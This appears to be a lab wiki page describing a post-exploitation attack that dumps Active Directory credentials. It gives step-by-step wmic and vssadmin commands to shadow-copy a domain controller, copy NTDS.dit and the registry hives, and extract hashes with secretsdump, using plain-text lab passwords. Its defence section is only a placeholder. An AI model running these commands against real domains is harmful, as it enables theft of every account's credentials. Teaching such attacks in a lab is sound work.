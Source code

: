 # Vssadmin Shadow Copy

## Configuring

No need to configure anything.

## Attacking

### How it works

With Domain Admin credentials it is possible to copy the NTDS.dit, SYSTEM and SECURITY hives remotely from the Domain Controller.

### Tools

* [Secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

### Executing the attack

The attack requires Domain Admin credentials and is a post exploitation attack to extract credentials.

1. Login to `WS01` as a normal user. For example `Richard` and the password `Sample123`.
2. Open PowerShell and Execute the following command to create a shadowcopy of the C: disk with the vssadmin utility.

```
wmic /node:dc02 /user:administrator@amsterdam.bank.local /password:'Welcome01!' process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```

![](<../../../.gitbook/assets/image (15) (1).png>)

3\. Now we can copy the NTDS.dit, SYSTEM and SECURITY hives to the `C:\temp` directory.

```
wmic /node:dc02 /user:administrator@amsterdam.bank.local /password:'Welcome01!' process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```

![](<../../../.gitbook/assets/image (3) (2).png>)

{% hint style="info" %}
Make sure the C:\temp directory exists on the DC before executing this command!
{% endhint %}

4\. The next step is to mount the `C:\temp` directory and access the files:

```
$creds = Get-Credential
New-PSDrive -Credential $creds -Name j \\dc02\c$\temp -PSProvider FileSystem
cd \\dc02\c$\temp
```

![](<../../../.gitbook/assets/image (12) (1).png>)

![](<../../../.gitbook/assets/image (9).png>)

5\. Copy the files to your Kali and execute the following command to extract the credentials.

```
python3 /opt/impacket/examples/secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

![](<../../../.gitbook/assets/image (11).png>)

![](<../../../.gitbook/assets/image (14).png>)



## Defending

### Recommendations

* a

### Detection



## References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin" %}

